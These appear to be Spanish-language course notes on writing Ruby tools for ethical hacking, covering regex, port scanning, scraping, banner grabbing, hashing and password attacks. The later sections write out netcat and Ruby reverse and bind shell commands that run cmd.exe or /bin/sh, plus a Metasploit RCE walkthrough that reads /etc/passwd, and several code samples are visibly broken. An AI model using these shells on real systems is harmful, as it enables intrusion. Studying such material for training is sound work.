

## Crear herramientas con Ruby para Ethical Hacking:

Este contenido es para fines pedagógicos o de estudio, el uso que le des, será responsabilidad tuya o del lector(a).

Nota: ¿Alguna vez has tenido un problema con tu computadora y tras una revisión te han dicho que se trataba de un error de capa 8? Lo anterior, es una broma proveniente del Modelo Open System Interconection (OSI), que define las arquitecturas de interconexión de sistemas de comunicaciones, el cual comprende 7 capas: nivel de aplicación, nivel de presentación, nivel de sesión, nivel de transporte, nivel de red, nivel de enlace de datos y nivel físico. El nivel 8 en realidad no existe([fuente:](https://truetalent.pro/error-de-capa-8-humor-geek-y-otros-chistes/) ). Es como descargar RAM :hushed:

> Expresiones Regulares:
  - Las expresiones regulares nos ayudaran a expresar ciertas búsquedas que queramos hacer sobre carácteres dentro de una cadena de texto.

  - ***Expresiones Regulares:***

- regex: regular expresion.
- sub: nos cambia el primero parámetro que encuentra y que necesitemos cambiar.
- gsub: nos ayuda a generar un cambio con el parámetro que le pasemos de manera global, ej:

```rb
!/usr/bin/env ruby

frase = "hay un lugar llamado San Cristobal"
frase = frase.gsub("lugar","cerro")
puts frase

saludo = "hola soy Ana"
#saludo = saludo.sub(/REGEX/,"REEMPLAZA")
saludo = saludo.sub(/^./,"REEMPLAZA")
```

- `$ ./1-regex.rb`: nombre del archivo a ejecutar, en este caso reemplazamos archivo.rb por: `./1-regex.rb`.
- `^` : inicio de la cadena.
- `^.` : define el inicio de la cadena y el carácter que va a cambiar con un punto(en este caso editará la letra `h` por `REEMPLAZA`).
- `saludo.sub(/^./,"REEMPLAZA")`: este interpretará el cambio que haremos en nuestra frase `"hola soy Ana"`.


Entonces:

```rb
saludo = "hola soy Ana"
#saludo = saludo.sub(/REGEX/,"REEMPLAZA")
saludo = saludo.sub(/^./,"REEMPLAZA")
puts saludo
```

Nos devuelve: 

`REEMPLAZAola soy Ana`


- `scan`: todo lo que encuentre lo devuelve como respuesta, pero hay que pasarle algo: 

Esto va a imprimir de 3 caracteres a la vez, y si no encuentra 3 caraceres mo lo imprime.


```rb
respuesta = "Este es un Curso de hacking"
respuesta = respuesta.scan(/.../){|i| puts i}

```

Nos imprime los caracteres que encontró en base a cada 3 caracteres.

```shell
Est
e e
s u
n C
urs
o d
e h
ack
ing
```

Esto va a tomar cualquier valor, menos los espacios, inclusive elimina los caracteres o letras antes del espacio, y no los imprime:

`respuesta = respuesta.scan(/\S\S\S/){|i| puts i}`


Nos devuelve en consola:

```shell
Est
Cur
hac
kin
```


- curso.scan(/\d/){} : la letra `d` nos permite tomar todos los valores o caraceres que le pasemos.

Ejemplo: 

```rb
curso = "Ahora tenemos otracadena de texto con 1005 numeros"
curso.scan(/\d/){|i| puts i}
```

***Responde asi:***

```shell
1
0
0
5
```

`curso.scan(/\d+/){|i| puts i}` = `1005`

Imprimir solo los caracteres especificos:

```rb
curso = "Ahora tenemos otra cadena de texto con 1005 numeros"

curso.scan(/[eoa]/){|i| puts i}
```

Nos retorna todas las letras que especificamos en el parámetro:

```shell
o
a
e
e
o
o
a
a
e
a
e
e
o
o
e
o
```

Seleccionar por bloque de caracteres:

```rb
curso = "Ahora tenemos otra cadena de texto con 1005 numeros"

curso.scan(/[a-m]/){|i| puts i}
```

Respuesta:

```shell
h
a
e
e
m
a
c
a
d
e
a
d
e
e
c
m
e
```


### Variedad de Regex:

> Existe una cantidad enorme de regex
  - \w : encuentra cualquier digito, letra o guión bajo(_).
  - \s : encuentra cualquier carácter espacio-en-blanco (character whitespace), como son un espacio, un tabulador y un retorno de carro.
  - /\D/ : busc cualquier caracter que no sea número.
  - /\W/ : busca cualquier caracter que no sea una letra o guión bajo.
  - /\S/ : busca un caracter que no sea un espacio en blanco.
  - `.` : cualquier caracter
  - [] : especificación por rango, ej.: [a-z], una letra de la `a` a la `z`.
  - \w : letra o número; es lo mismo que [0-9A-Za-z].
  - \W : cualquier caracter que no sea letra o número.
  - \s : caracter de espacio es lo mismo que [\t\n\r\f].
  - \S : cualquier caracter que no sea un espacio.
  - \d : número, es lo mismo que [0-9]
  - \O : cualquier caracter que no sea un número.
  - \b : retroces (0x88), si no está dentro de un rango.
  - \b : limite de palabra, si no está dentro de un rango.
  - \B : no limite de palabras.
  - * : cero o más repeticiones de lo que le precede.
  - + : una o más repeticiones de lo que le precede.
  - $ : fin de la linea(cuando iniciamos en el fin de la linea).
  - {m, n} : como menos m, y como mucho n repeticiones de lo que le precede.
  - ? : al menos una rerpetición de lo que le precede, lo mismo que {0,1}
  - () : agrupar expresiones.
  - || : operador lógico o busca lo de antes o lo de de después.


### Crear un servidor HTTP:

> Crearemos un servidor HTTP utilizando WEBrick.

Crearemos todas nuestras dependencias en la máquina virtual VM, crear el servidor HTTP.

- Crear un archivo o servidor que va a ser quien nos haga conexión directa con Ruby.


- Generalmente `webrick` viene por defecto, sino debemos instalarlo con: `gem install webrick`.

```rb
# !/usr/bin/env ruby

require 'webrick'
```

> Inicializar el servidor, pasandole la ruta donde queremos que se ejecute:
  - Especificamos la ruta de ejecución.
    - Debemos darle un Puerto.
      - El path, representa la dirección.

```rb
path = File.expand_path('/home/kali/Escritorio/ethical-hacking-ruby')
server = WEBrick::HTTPServer.new : Port => 8000, :DocumentRoot => path
```

> Sistema de mensajes, en donde el servidor va a monitorear los mensajes de todo lo que esté sucediendo.

> Asi es como creamos un servidor web, utilizando Ruby.

- Lo creamos con: 

`trap 'INT' do server.shutdown end`

Ejecutar en terminal: 

`$ chmod +x iniciar-un-servidor.rb`

=> `./iniciar-un-servidor.rb`

- `$ ip addr` : nos entrega una IP, debes copiarla y pasarla al navegador junto con el puerto :8000.

- Esto nos entregará un detalle de lo que está corriendo en ese puerto, una vez especificado la IP. Además nos entregará los archivos que estamos trabajando.

`http://[IP]:8000/ -> /favicon.ico`


### Escaner de Puertos:

> Los scanners de puertos(o de redes) tienen la funcionalidad de detectar puertos abiertos o cerrados sobre un host.
  - Teniendo la información del status de los puertos  podemos darnos una idea del servicio que se esta corriendo sobre este.

```rb
require 'socket'

PORT = ARGV[0] || 80
HOST = ARGV[1] || 'localhost'

begin
  socket = TCOSocket.new(HOST, PORT)
  status = "abierto"
rescue Errno::ECONNREFUSED, Errno::ETIMEDOUT
  status = "cerrado"
end

puts "Puerto: #{PORT} esta #{status}"
```

- connect_nonblock: con socket, vamos a hacer que se ejecute la conexión de manera asincrona.


### Puertos más comunes:

21 : puerto de transferencia de archivos(FTP)

22 : servicio de shell `ssh`

23 : servicio de protocolo no seguro, ya que la información no se cifra (conecta de manera remota con otros equipos, por la linea de comandos y controlarlos). TELNET.

25 : protocolo simple de transferencia de correos (SMTP)

53 : es un DNS se usa para las comunicaciones, tanto para datagramas UDP como paquetes TCP.

80 : sirve para publicar cualquier servicio web estándar, que no sea por protocolo seguro(HTTPS). Es el puerto por defecto de los sistemas para publiccar un sistema por el protocolo Http.

443 : sirve para la navegacion web, y utiliza el protocolo Https, que es seguro y utiliza el protocolo TLS por debajo.

3306 : es el puerto por defecto que utiliza MySQL.

8080 : puerto alternativo, para pruebas.

### Instalar Tor

Ejecutar pruebas dentro de Kali:

`$ sudo apt-get install tor`

=> inicializar el servicio de Tor

=> `sudo su`

=> `# service tor start`

- `# service tor status`
  - nos dirá si está activo

Con este comando podré revisar con la red de tor, para obtener anonimato al consultar escaneo de puertos: 

`# proxychains ./nuestroprogramaenruby.rb`.


> ¿Qué es el proxychains?

Sirve para ocultar la identidad en Internet utilizando un sistema operativo basado en Linux es realmente muy sencillo, y todo ello sin necesidad de contratar un servicio de VPN como los que existen en la actualidad. Distribuciones como Kali Linux son usadas para auditar la seguridad de las redes WiFi, web, servidores etc. No obstante, sistemas operativos como Debian o Ubuntu también son ampliamente utilizados para estas tareas.


### Web Scrapping

> Es una técnica que nos ayudará a encontrar información relevante sobre un sitio web.

> Esta técnica se basa en leer un sitios web HTML y por medio de los tags extraer información.

> El web scraping o “escarbar en una página web” es una técnica que se utiliza para obtener información de forma automática de páginas web. El scraping es la extracción de información web con el objetivo de conseguir un gran volumen de datos (Big Data) sin necesidad de que intervenga una persona en el proceso.

> El web scraping se realiza utilizando programas llamados bot, spider o crawler, por eso es habitual que muchas páginas web utilizan métodos de defensa ante este tipo de navegación (introducción de captchas, casilla de verificación de “no soy un robot”, y similares).


- `$ gem install nokogiri`

Entonces; nokogiri hace que sea fácil y sencillo trabajar con XML y HTML de Ruby.

- `$ gem install httparty`

Nos ayudará a generar peticiones de tipo XML o HTML.


Esto nos devolverá el primero valor que encuentra en el `div`: `job_listings = parsed_page.css('div.iO').text`

Devolver el valor por página:

```rb
require 'nokogiri'
require 'httparty'

def scrapper
  url = "https://candidato.computrabajo.cl/Acceso/?gclid=CjwKCAjw4KyJBhAbEiwAaAQbE0NCdc3ANmJ-3r9c1U-PQbEsVdeT2FNQt_cDAYChEqM3ZQMC5Uvo_xoCmQQQAvD_BwE"
  unparsed_page = HTTParty.get(url)
  parsed_page = Nokogiri::HTML(unparsed_page.body)
  job_listings = parsed_page.css('div.iO') # ('h2.iO') || ('h2.t0')
  job_listings.css('span[itemprop="name"]').each do |link|
    nuevo = link.content
    nuevo = nuevo.strip
    puts nuevo
  end
  per_page = job_listings.count
  array = []
  total = parsed_page.css('div.pg_grid span').text
  puts total
end

scrapper
```

Vamos a conseguir todos los valores numéricos en la pág.

```rb
  total = total-scan(/\d+/){ |i| array.push(i.to_i) }
```

Acceder al último valor:

```rb
  total = total-scan(/\d+/){ |i| array.push(i.to_i) }
  total = array[-1]
  puts total

```


Este ciclo nos devolverá la cantidad  de páginas que exista como opciones:


```rb
while page <= 1 last_page
    puts "Page: #{page}"
    pagination_url = "https://..."
    puts pagination_url
    page += 1
  end
```

### Paginación de la página

Este web scrapping, esta preparado solo para esta página de trabajos en particular, si tuvieramos otra página con otros valores, habría que adaptarla.

Esto nos devolverá la paginación y su contenido en cada una de ellas:


```rb
    pagination_unparsed_page = HTTParty.get(pagination_url)
    pagination_parsed_page = Nokogiri::HTML(pagination_unparsed_page.body)
    pagination_job_listings = pagination_parsed_page.css('div.iO')
    pagination_job_listings.each do |jobs_listing|
      bussiness = scrapper_company(jobs_listing)
    page += 1
    end
    puts bussines
```

Esto nos ayudará a retornar la variable con sus contenidos y además nos devolverá:

```rb
def scrapper_company(jobs_listing)
  job_listing.css('span[itemprop="name"]').each do |link|
    nuevo = link.content
    nuevo = nuevo.strip
    return nuevo
  end
end
```

- tO : nos devolverá el título que tiene almacenado este trabajo en particular.


Al llamar a job con `puts job`, nos debiera traer las listas de tituloa, empresas, y la dirección de url:


```rb
job = {
        title: job_listing.css('h2.tO').text,
        company: bussines,
        url: pagination_url
      }
```

Devolver el valor de la url, accediendo al ancla de la url, mediante el `href`:


```rb
      job = {
        title: jobs_listing.css('h2.tO').text,
        company: bussines,
        url: "https://www..." + job-listing.css('a')[0].attributes['href'].value
      }
      puts job
```

O podriamos recorrerlo e interpolarlo:

```rb
job.each do |k, v|
  puts "#{k} => #{v}"
end
```

***************************************************************

### Banner Grabbing:

> Uno de los aspectos a la hora de realizar controles sobre una aplicación web es la información que puede obtenerse a través de lo que se conoce como banner grabbing. Este concepto se refiere a la interacción manual  en texto plano para obtener información sobre sobre el servidor donde reside la aplicación web. El banner([Fuente welivesecurity: ](https://www.welivesecurity.com/la-es/2012/11/21/obtener-informacion-de-servidores-web-con-banner-grabbing/)).


Técnica que se utiliza sobre un servicio para detectar información en el banner de respuesta.

Vamos a tener un método que va a recibir dos parámetros:

Si no tenemos instalado net-http, lo instalaremos con `gem install net-http`. Si no tenemos el permiso lo hacemos con `sudo su` => `# gem install net-http`.

Obtener encabezados de respuesta con `x-powered-by`:


```rb
require 'net/http'

def detectar(host, puerto)
  puerto = puerto || 22
  Net::HTTP.start(host.to_s, puerto) do |http|
    resp = http.head('/')
    return [resp['server'].to_s, resp['x-powered-by'].to_s]
  end
end

if ARGV.size <= 0 || ARGV.size > 2 
  puts " El uso del script: #{$0} host [Puerto"
  exit
end

server, mods = detectar(ARGV[0], ARGV[1])
```

En la terminal lo ejecutamos asi: `chmod +x banner_grabbing.rb`, enter, esto nos devolverá un srcipt y el puerto. Probamos con: `./banner_grabbing.rb localhost 8000`. Nos devuelve la -v de ruby, el puerto y WEBrik/1.6...

Esto comprueba que no todos los servidores son vulnerables a este tipo de ataques, ya que eso significará que los banners están configurados de manera correcta.


**********************************************************************

### Extracción de información con RegEx:

Mediante la utilización de expresiones regulares, veremos como extraer información de redes.

Ejemplos:

1.- string text:

```rb
string text = "x=3.452 y=4521 z= 3412";  
string[] results = text.ExtractStringsUsingRegex(@"\d+(?:\.\d+)?");
```

2.- text:

```rb
text = "To contact send an email to test@acme.com. If you don't get " + 
    "a quick response , please send an e- mail  answers@acme.com.br."; 
results = text.ExtractStringsUsingRegex("[_A-Za-z0-9-\\+]+(\\.[_A-Za-z0-9-]+)*@[A-Za-z0-9-]+(\\.[A-Za-z0-9]+)*(\\.[A-Za-z]{2,})"); 
```

3.- Los métodos IsValidEmail y DomainMapper pueden estar incluidos en una biblioteca de métodos de la utilidad de expresiones regulares o pueden incluirse como métodos estáticos o de instancia privados en la clase de aplicación.


```rb
Expresión Regular para IsValidEmail: ^(?(“)(“.+?(?<!\\)”@)|(([0-9a-z]((\.(?!\.))|[-!#\$%&’\*\+/=\?\^`\{\}\|~\w])*)(?<=[0-9a-z])@))”(?(\[)(\[(\d{1,3}\.){3}\d{1,3}\])|(([0-9a-z][-\w]*[0-9a-z]*\.)+[a-z0-9][\-a-z0-9]{0,22}[a-z0-9]))$
```

### Búsqueda de un MAC:

¿Qué es la dirección MAC de un dispositivo?

> La dirección MAC es un identificador único que cada fabricante le asigna a la tarjeta de red de sus dispositivos conectados, desde un ordenador o móvil hasta routers, impresoras u otros dispositivos como tu Chromecast. Sus siglas vienen del inglés, y significan Media Access Control(El control de acceso a medios). Como hay dispositivos con diferentes tarjetas de red, como una para WiFi y otra para Ethernet, algunos pueden tener diferentes direcciones MAC dependiendo de por dónde se conecten.

> Las direcciones MAC están formadas por 48 bits representados generalmente por dígitos hexadecimales. Como cada hexadecimal equivale a cuatro binarios (48:4=12), la dirección acaba siendo formada por 12 dígitos agrupados en seis parejas separadas generalmente por dos puntos, aunque también puede haber un guión o nada en absoluto. De esta manera, un ejemplo de dirección MAC podría ser 00:1e:c2:9e:28:6b.

Esto buscará del cero al nueve y de la letra `a` a la letra `f`: `/(?:[0-9A-F][0-9A-F][:\-]){5}[0-9A-F][0-9A-F]/i`

- Ejemplo de una búsqueda de mac:
  - ***Advertencia: este mac es sacado de internet, por tanto no pertenece a ningún dispositivo existente.***
    - Nos ayuda a buscar mac que esten ocultas dentro de las páginas web.

```rb
mac = "ads fs:ad fa:fs:fe: Wind00-0C-29-38-1D-61ows 00-80-41-AE-FD-7E"
mac_regex = /(?:[0-9A-F][0-9A-F][:\-]){5}[0-9A-F][0-9A-F]/i
mac = mac.scan mac_regex
puts mac
```


### Búsqueda de la IP:

En esta ocasión buscaremos la ip de un pc en particular, pero tendremos los valores escondidos dentro de la variable, podriamos tener una -v de ipv6 pero ocuparemos una de -v ipv4:

***Advertencia: Las ip registradas en esta documentación no son reales, son de carácter de pruebas.***

```rb
ip = "ads fs:ad fa:fs:fe: Wind10.0.4.5ows 11192.168.0.15dsfsad fas fa1 20.555.1.700 f2"
ipv4_regex = /(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)/
ip = ip.scan ipv4_regex
ip.each do |i|
  puts i.join('.')
end
```


### Búsqueda de una URL:

Para este ejemplo se utilizaron url no existentes, pero queda en claro el efecto de búsqueda el cual nos ayudará encontrar ciertas url, ya sean con `http` o `https`. Para la instalación de la gema: `gem install net-http`.


```rb
require 'uri'
string = "text here http://algo.algo.org/algo2 and http://dos.ejemplo.org/algo3"
string.scan(/https?:\/\/[\S]+/)
puts URI.extract(string, ["http", "https"])
```

#### Tipos de regex para la búsqueda:

1.-

```rb
(/http|ftp|https)://([\w_-]+(?:(?:\.[\w_-]+)+))([\w.,@?^=%&:/~+#-]*[\w@?^=%&/~+#-]/)?
```

2.- 

```rb
/(?:(?:https?|ftp|file):\/\/|www\.|ftp\.)(?:\([-A-Z0-9+&@#\/%=~_|$?!:,.]*\)|[-A-Z0-9+&@#\/%=~_|$?!:,.])*(?:\([-A-Z0-9+&@#\/%=~_|$?!:,.]*\)|[A-Z0-9+&@#\/%=~_|$])/igm
```

3.-

```rb
/(http|https)\:\/\/[a-zA-Z0-9\-\.]+\.[a-zA-Z]{2,3}(\/\S*)?/
```

> Esto nos sirve para buscar información de personas, y podemos buscar dentro de sus url, como ethical hacking. ***ADVERTENCIA: el contenido de este Repositorio es público pero lo que hagas con éste contenido es tu responsabilidad, usala con fines educacionales, no maliciosos, ya que podría tener consecuencias graves.***

- Esto se podría ocupar para obtener las preferencias de un usuario, los gustos, etc.

Nos devuelve los links que se encuentran dentro del Perfil de esta persona, en una página específica:


```rb
require 'net/http'
puts Net::HTTP.get(URI.parse("https://twitter.com/algo")).scan(/https?:\/\/[\S]+/)

```


### Búsqueda de un email específico y único 

.uniq: nos ayuda en la búsqueda única de un valor específico.

```rb
require 'net-http'
email_regex = /\b[A-A0-9._%+-]+@[A-Z0-9.-]+\.[A-Z]{2,4}\b/i
puts Net::HTTP.get(URI.parse("https://twitter.com/algomas")).scan(email_regex).uniq

```

************************************************************************

## Ciframiento y Hashing

El cofrado es un procedimiento que utiliza un algoritmo de cifrado con cierta clave para transformar un mensaje, sin atender a su estructura lingÜistica o significado, de tal forma que sea incomprensible.

- Lo utilizamos para guardar información importante.
  - Guardar contraseñas.
    - Datos personales.
      - etc.

Vamos a utilizar la gem o librería `digest`. Una función hash criptográfica es un procedimiento que toma datos y devuelve una cadena de bits fija: el valor hash, también conocido como resumen . Las funciones hash también se denominan funciones unidireccionales, es fácil calcular un resumen a partir de un mensaje, pero no es factible generar un mensaje a partir de un resumen.([Fuente: rubydoc.info](https://www.rubydoc.info/gems/digest/3.0.0)).


Por ejemplo, si tuviera la palabra `Hola`, y quisiera cifrarla, lo hariamos así:

```rb
require 'digest'

palabra = "Hola"
puts Digest::MD5.hexdigest palabra
```


¿Qué significa el nombre MD5?

MD5 viene del inglés "Message Digest Algorithm 5". Fue creado en 1991 por Ronald Rivest en el MIT (Instituto Tecnológico de Massachusetts), para reemplazar al viejo MD4. Es un algoritmo de codificación de 128 bits que se compone de 32 caracteres hexadecimales y sirve para encritpar archivos y contraseñas en bases de datos. La codificación MD5 es capaz de generar huellas en archivos para asegurarse de que no hayan cambios en estos mientras transitan por la red.([Fuente: infranetworking](https://www.infranetworking.com/md5)).


> Con dos tipos de cifrados MD5 Y SHA1:

  - MD5: nos entrega un cifrado de 32 caracteres.
  - SHA1: nos entrega un cifrado de 40 caracteres.
  - SHA256: nos entrega un cifrado de 64 caracteres.
  - SHA512: nos entrega un cifrado de 128 caracteres.

Esto nos ayuda a evaluar si la integridad del un archivo sigue siendo la misma, ya que cualquier cambio realizado en este, podrá alterar el cifrado del mismo.


```rb
require 'digest'

palabra = "Hola"
cifrado_MD5 = Digest::MD5.hexdigest palabra #32
cifrado_SHA1 = Digest::SHA1.hexdigest palabra #40
puts cifrado_MD5
puts cifrado_SHA1
```

Una de la ventajas de cifrar nuestras contraseñas, datos, contenido, etc. es que es casi imposible llegar al contenido original.


NTLMv1 y NTLMv2: es como se guardan los hashes actualmente en windows.


```rb
# NTLMv1
require 'digest'
require 'openssl'

ntlm = OpenSSL::Digest::MD4.hexdigest "password".encode('UTF-16LE')
puts ntlm

#NTLMv2
ntlmv1 = OpenSSL::Digest.MD4.hexdigest "password".encode('UTF-16LE')
userdomain = "administrator".encode('UTF-16LE')
ntlmv2 = OpenSSL::HMAC.digest(OpenSSL::Digest::MD5.new, ntlmv1, userdomain)
puts ntlmv2
```


***Actualmente MYSQL utiliza SHA1 para devolver un hash, lo ejecuta una vez, le devulve una encriptación, y luego lo vuelve a ejecutar y le devuelve otro hash encriptado y luego con .upcase lo convierte en mayúsculas todos los caracteres.***


```rb
# mysql
puts "*" + Digest::SHA1.hexdigest(Digest::SHA1.hexdigest('password')).upcase
```

Sería lo mismo que decir:

```rb
#mysql...seria lo mismo que:
sha1_mysql_1 = Digest::SHA1.hexdigest('password')
puts sha1_mysql_1
puts "*" + Digest::SHA1.hexdigest(sha1_mysql_1).upcase

```

***************************************************************

### Ataques de Password Guessing por comparación de hashes


> Ataques de Fuerza Bruta: 

En el caso de que sepas que los caracteres son números o letras, tendrías la opción de descifrar la contraseña, mientras esta corta de al menos 5 caracteres.

> Ataques de Diccionario: 

La más utilizada, creas una lista de palabras, y esta lista se le conoce como diccionario. Podríamos tener algo asi:

```shell
  - password
  - contraseña
  - 12345678
  - qwerty123
```


Esto seria como un top de palabras más utilizadas para contraseñas sencillas, y fáciles de descifrar.

CASO: Podríamos tener a un individuo que quisieramos descifrar su password de una red social, tendriamos:

```shell
 - edad         - nombre de los hijos
 - ciudad       - nombre de la esposa
 - teléfono     - fecha de nacimiento de todos
 - nombre       - rut
```


> Rainbow tables: qué son y cómo funcionan las tablas arco iris:

Con un nombre más acorde a un juego infantil, las tablas arco iris son un poderoso instrumento con el que es posible crackear contraseñas. A esta tarea se dedica con ahínco un buen número de personas a ambos lados de la legalidad, unos por el beneficio que aspiran a obtener con ellas, los otros porque su trabajo como expertos consiste en comprobar periódicamente la efectividad de los estándares de seguridad vigentes y las tablas arco iris -traducción del original rainbow tables, también conocidas como tablas rainbow- permiten encontrar claves en unos pocos segundos si se dan ciertas circunstancias.([Fuente: IONOS](https://www.ionos.es/digitalguide/servidores/seguridad/rainbow-tables/)).


Tenemos dos tablas, una tabla de cifrado y otra con las palabras originales.

Ejemplo:

Tengo una contraseña que es `password` y tengo su cifrado en MD5, y si conside el cifrado con el del user, tendria su contraseña.


**********************************************************************

## ¿Qué es una Remote Shell?


Tipos de protocolos:



[Fuente:IBM](https://www.ibm.com/docs/es/aix/7.1?topic=protocols-internet-application-level)


> Remote Shell: 
  - Realizar una conexión entre dos equipos que permita ejecutar código remoto.
  - Existen dos tipos:
    - Bind
    - Reverse

[Fuente: sniferl](https://sniferl4bs.com/2017/04/hacking-101-reverse-shell-bind-shell-with-netcat/).


Bind Shell: Lo que hace es dejar un puerto a la escucha, y el atacante se conecta.

Reverse Shell o Connect Back: Es que la victima se conecta al atacante.

El uso de las Reverse Shell, es el de ejecutar comandos de manera remota, y a partir de ello dejar una puerta trasera, obtener privilegios por medio de un escalamiento por decirlo asi lo que veremos a continuación es algunas formas y manera de obtener acceso a un equipo remoto, lo mismo de la Bind Shell muchas veces se recomienda mas el uso de una Bind Shell que la Reverse shell pero llega a ser un poco mas complicado realizarlo, ya que por las reglas de firewall y adicionales nos limita a realizar dicho trabajo.

Cabe resaltar que necesitamos contar con nc o ncat en la pc victima, como lo indicaba al inicio haremos unicamente uso de nc, ncat cabe resaltar que es independiente el sistema operativo atacante

Reverse Shell
Lo que haremos en el equipo comprometido sera ejecutar el siguiente comando:

Victima: Conexión externa.

```rb
nc -nv
```

Atacante: Escucha sobre TCP

```rb
nc -lvp
```


 Si lo ejecutamos sin la bandera -e unicamente tenemos un canal de comunicación de punto a punto siendo este un simple chat por mencionarlo asi, siendo este una conexión TCP el mismo lo vemos anteriormente, entonces si deseamos tener una conexión que nos permita ejecutar comandos debemos de realizar lo siguiente tanto en Windows como en Linux se pasa a describir.

 Reverse Shell en Windows:

 Atacante: A la espera de la conexión.

```shell
nc -lvp (Puerto)
```

Victima: Se esta dando el valor de cmd.exe para indicar la Shell con la que se llegara a interactuar.

```shell
nc -nv (Direccion ip) (Puerto) -e cmd.exe
```


Reverse Shell en Linux:

Atacante:

```shell
nc .lvp (puerto)
```

Victima:

```shell
nc -nv  (Direccion ip) (Puerto)  -e /bin/(Tipo de Shell a dar)
```

En este caso podria ser zsh, bash, sh segun el equipo y entorno que se este trabajando.

Bind Shell en Windows
En este caso con la Bind Shell lo que hacemos es realizar la conexión al equipo victima desde el atacante si notan es la inversa de lo que se realizo en una Reverse Shell lo dejo a continuación los comandos para que lo tengan en cuenta.

Victima:

```shell
nc -lvp (Puerto) -e cmd.exe
```


Atacante:

```shell
nc -nv (Direccion ip)(Puerto)
```

Bind Shell en Linux:


Victima:

```shell
nc -lvp (Puerto) -e /bin/sh
```


Atacante:

```shell
nc -nv (Direccion ip)(Puerto)
```

En una proxima entrada de Hacking 101 mencionaremos como obtener diferentes Shell con otros servicios siendo estos con Perl, Python y adicionales además de conocer la interacción de Spawing TTY Shell, así tambien recordarles que desde un Fichero PHP es posible tambien realizar este tipo de conexiones, espero que esta entrada y las que vienen sean de su agrado tanto como las técnicas y las que estan siendo realizadas para los que recien comienzan con el fin de afianzar sus conocimientos e ir aprendiendo paso a paso.


***En el Bind Remote Shell; el atacante debe crear un script y solicitar conexión con la victima.***

***La victima: debe abrir el puerto, por ejemplo el puerto 8182 que es de tipo HTTP***

Para realizar este ataque, debemosconocer la IP de la víctima.

```rb
require 'socket'

s = TCPSocket.new("192.168.109.129",9876)
loop do
  cmd = gets.chomp
  s.puts cmds.close if cmd == "exit"
  puts s.recv(10000)
  end
end

```

Netcat es una herramienta de red que permite a través de intérprete de comandos abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto en concreto y forzar conexiones UDP/TCP.

Un ejemplo de uso sencillo donde podemos enviarnos información de texto de una máquina a otra como si de un chat se tratara.

nc sería el comando para invocar a netcat. Windows se queda a la escucha -l(listening) a espera de establecer la conexión, en modo verbose(nos muestra lo que está escuchando) -v, en el puerto 1190 -p(port).

Desde metasploit: `~$ nc -lvp 9876` y ejecutar, por mientras en la terminal correr: `chmod +x bind_shell.rb` y ejecutamos bind asi: `$ ./bind_shell.rb`.

***Ver IP: $ ip addr***

En la terminal del user: puedo escribir cualquier dato y este se reflejará en al remote shell del atacante, pero si el user escribe `exit` este se cierra, y al user le aparecerá un error en la terminal asi: `'recv': close stream (IOError)`.


Podemos hacer lo mismo desde la terminal y en una sola linea de código, solo debemos reemplazar por `;` los saltos de lineas.

Terminal: `$ ruby -rsocket -e's = TCPSocket.new("192.168.109.129",9876);loop do; cmd = gets.chomp; s.puts cmds.close if cmd == "exit"; puts s.recv(10000); end;
end'
`

Reverse: con el puerto 8123, voy a captar la conexión del user, mediante un script: `$ nc -lvp 8123`.

Esto en kali: 

Primero debo estar en modo escucha: `$ nc -lvp 9876`.

Luego:

```rb
~$ ruby rsocket -c's = TCPSocket.open("ip", 9876).to_i:exec sprintC("/bin/sh -i <%d >&%d 2>&%d", algo)'
```


### Reverse Shell

El script permititá establecer una conexión y enviar comandos.

stdin: estandar input o de ingreso de datos

stdout_and_stderr: estandar output y estandar error

En la terminal: `$ ruby reverse_shell.rb`

En metasploit con nc: `nc -lvp 9876`

=> `Se estableció la conexión`

=> hostname

=> kali

=> ip addr

=> ip

**************************************************************************


### Ataque RCE con Metasploit

> Crear un servidor web con Ruby, al cual nos conectaremos utilizando un exploit de Metasploit.

> Ejecución remota de código o RCE ha sido uno de los métodos preferidos por los hackers para infiltrarse en una red/máquinas. En pocas palabras, la Ejecución Remota de Código ocurre cuando un atacante explota un error en el sistema e introduce un malware. El malware explotará la vulnerabilidad y ayudará al atacante a ejecutar códigos de forma remota. Esto es similar a entregar el control de todo el equipo a otra persona con todos los privilegios de administración.[Fuente: Wiki](https://www.pchardwarepro.com/ataques-de-ejecucion-de-codigo-remoto-y-pasos-de-prevencion/)

Lo ejecuto en metasploit con: `ruby metasploit.rb`

En kali: 

```shell
$ sudo msfconsole
[sudo] password for kali:
[vaquita feliz]

       =[metasploit v5.0.101-dev]
+ -- --=[algo]

Metasploit tip: ...

msf5 > search drb

Matching Modules
================
...


```shell
msf5 > use 0
```

o también:

```shell
msf5 > use exploit/linux/misc/drb_remote_codeexec
[*] Using config...

msf5 exploit(exploit/linux/misc/drb_remote_codeexec) > show options
```

# rellenar campos:

```shell
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
RHOST                      no      The...
RPORT   8787               yes     The...
URI                        no      The URI of the target host (druby://host:port) (...)
```

Completamos la URI:

```shell
msf5 exploit(exploit/linux/misc/drb_remote_codeexec) > set URI druby://192.168...:8080

URI => druby://192.168...:8080

```

Nos mostrará las opciones existentes y debemos llamar a exploit:

```shell
msf5 exploit(exploit/linux/misc/drb_remote_codeexec) > show options
```

Llamamos a exploit y esperamos a que se ejecute:

```shell
msf5 exploit(exploit/linux/misc/drb_remote_codeexec) > exploit
```


Ya tenemos la conexión lista con la víctima, asi que podemos ejecutar comandos como:

```shell
hostname
=> metasploitable
ls
ftp
msfadmin
rce.rb
service
user
cd /etc
cat shadow
cat: shadow: Permission denied
cat passwd
muchas cosas...en este caso el servidor de la víctima

```

****************************************************************

### SSH Brute Force

> Crearemos un script para realzar ataques de fuerza bruta hacia el servicio SSH.

- `$ gem install net-ssh`

Por defecto el puerto 22 es para conexiones de tipo SSH.

Una vez definido el método, debemos probar las posibles contraseñas para el ataque. En kali: `~$ ip addr `, iniciar el ssh en kali: `~$ sudo su` => `kali# service ssh status` esto nos permite ver el estado de la ssh, en este caso hay que iniciarla con: `kali# service ssh start` => `kali# service ssh status`, ahora se encuentra activa, podemos inicializar nuevamente desde la terminal: `~$ ssh kali@192...` nos va a pedir la contraseña `sh kali@192...'s password: ...` 

